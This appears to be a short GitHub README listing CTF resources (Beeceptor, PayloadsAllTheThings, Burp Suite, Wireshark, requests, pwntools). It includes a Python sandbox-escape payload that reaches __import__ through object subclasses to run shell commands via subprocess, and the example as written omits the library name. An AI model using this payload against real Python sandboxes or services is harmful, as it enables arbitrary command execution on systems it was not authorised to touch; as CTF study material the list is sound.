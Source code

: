 # CTF-Things



# A list of useful things that can help you in CTFs.
-----------------------------
## Websites

### [Beeceptor](https://beeceptor.com/)
```
A website where you can create a mock api that can act as your server and recive requests.
```

-----------------------
## Payloads

[###Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
```
A useful repository that has all kinds of payload for a lot of diffrent attacks.
```

### A Python code that can call a function from any library without using the import statment.
```
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__'](<the library name>).<the function>

example:
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']().check_output(['ls', '-l'])

In this example we call the check_output function from the subprocess library.
This example can essentioly run any shell code on the machine using python.
```

-----------------------------
## Tools

[###Burp suite](https://portswigger.net/burp/communitydownload)
```
Everyone knows burpsuite, but for those who dont I can explain:
essentialy burp suite let you see your http traffic, act as a proxy, change http requests, and a lot more!!!
```


[###Wireshark](https://www.wireshark.org/)
```
Another classic like burp suite...
Wireshark lets you sniff the network traffic on your computer and open sniffs files.
```
-----------------------------
## Python libraries

[###Requests](https://pypi.org/project/requests/)
```
A python library that lets you send http requests on the web.
```

[###Pwn tools](https://docs.pwntools.com/en/stable/)
```
A python library that gives you a lot of tools to use in CTFs.
Tools like - netcat from a script with the pwn.remote function, analizing binary files.
```

******************
